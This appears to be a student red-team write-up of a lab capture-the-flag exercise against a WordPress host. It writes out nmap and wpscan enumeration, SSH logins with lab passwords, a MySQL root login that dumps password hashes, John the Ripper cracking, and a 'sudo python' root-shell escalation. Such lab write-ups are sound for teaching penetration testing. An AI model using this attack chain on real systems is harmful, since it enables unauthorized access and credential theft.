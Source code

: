 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploitation
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


- Kali Linux Command: 
$ wpscan -u http://192.168.1.110/wordpress -eu
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4